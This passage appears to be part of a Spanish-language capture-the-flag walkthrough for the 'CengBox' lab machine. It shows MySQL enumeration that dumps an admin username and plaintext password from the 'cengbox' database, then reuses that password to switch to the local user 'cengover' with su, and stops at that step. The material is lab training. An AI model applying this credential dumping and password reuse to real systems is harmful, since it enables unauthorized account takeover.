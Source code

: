 Una vez dentro haremos estos pasos siguientes...

```mysql
show databases;
```

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cengbox            |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
```

```mysql
use cengbox;
```

```mysql
show tables;
```

```
+-------------------+
| Tables_in_cengbox |
+-------------------+
| admin             |
+-------------------+
```

```mysql
select * from admin;
```

```
+----+-------------+---------------+
| id | username    | password      |
+----+-------------+---------------+
|  1 | masteradmin | C3ng0v3R00T1! |
+----+-------------+---------------+
```

Veremos un usuario y contraseña, pero esa contraseña la podremos utilizar tambien para conectarnos al usuario del servidor llamado `cengover`...

```
User = cengover
Password = C3ng0v3R00T1!
```

```shell
su cengover
```

Y metemos esa `password`...
